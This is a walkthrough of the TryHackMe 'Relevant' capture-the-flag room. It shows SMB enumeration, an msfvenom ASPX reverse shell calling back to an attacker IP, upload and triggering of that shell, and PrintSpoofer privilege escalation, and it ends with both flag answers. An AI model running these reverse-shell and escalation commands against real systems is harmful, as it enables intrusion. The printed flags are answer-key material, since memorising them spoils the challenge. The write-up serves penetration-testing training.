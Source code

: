 # [Relevant](https://tryhackme.com/r/room/relevant)

![Relevant](./images/Relevant.png) 

[Relevant](https://tryhackme.com/r/room/relevant) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Smbclient
* PrintSpoofer
* Msfvenom & Msfconsole

![IP](./images/IP.png)

## Pre-Engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope
* Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

### Enumeration & Exploitation

* Port scan with `Nmap`

	```
	nmap -A $IP -oN nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Listing smb client

	```
	smbclient -L \\$IP
	```

	![smbclient-list](./images/smbclient-list.png)

* Open list drive

	```
	smbclient \\\\$IP\\nt4wrksv
	```

	![smbclient-drive](./images/smbclient-drive.png)

* Download file `password.txt` and view the file

	![file-password](./images/file-password.png)

* Decode the `password.txt` code

	![decode](./images/decode.png)

* Crete payload reverse shell

	```
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.17.127.223 LPORT=8888 -f aspx -o shell.aspx
	```

	![payload](./images/payload.png)

* Upload payload

	```
	smbclient \\\\$IP\\nt4wrksv
	put shell.aspx
	```

	![upload](./images/upload.png)

* Set listener on attacker machine

	```
	msfconsole -q -x "use exploit/multi/handler; set LHOST 10.17.127.223; set LPORT 8888; set PAYLOAD windows/meterpreter/reverse_tcp; exploit"
	```
	
	![listener](./images/listener.png)

* Access the payload to get reverse shell

	```
	curl http://10.10.234.131:49663/nt4wrksv/shell.aspx
	```

	![curl](./images/curl.png)

	![shell](./images/shell.png)

* Get the user flag

	![user](./images/user.png)

* Run `getprivs` to check our privileges

	![getprivs](./images/getprivs.png)

	 We are granted with **SeImpersonatePrivilege**

* Download **PrintSpoofer.exe** for exploit token **SeImpersonatePrivilege**

	```
	https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
	```

	![download](./images/download.png)

* Upload **PrintSpoofer.exe** on targer machine

	```
	cd "C:\inetpub\wwwroot\nt4wrksv"
	upload PrintSpoofer.exe
	```

	![printspoofer](./images/printspoofer.png)

* Run `cmd.exe` and run **PrintSpoofer.exe**

	```
	execute -f cmd.exe -i -H
	PrintSpoofer.exe -i -c cmd.exe
	```

	![cmd](./images/cmd.png)

* Get root file

	![root](./images/root.png)

### Answer the questions below

* User Flag

	`THM{fdk4ka34vk346ksxfr21tg789ktf45}`

	![user](./images/user.png)

* Root Flag

	`THM{1fk5kf469devly1gl320zafgl345pv}`

	![root](./images/root.png) 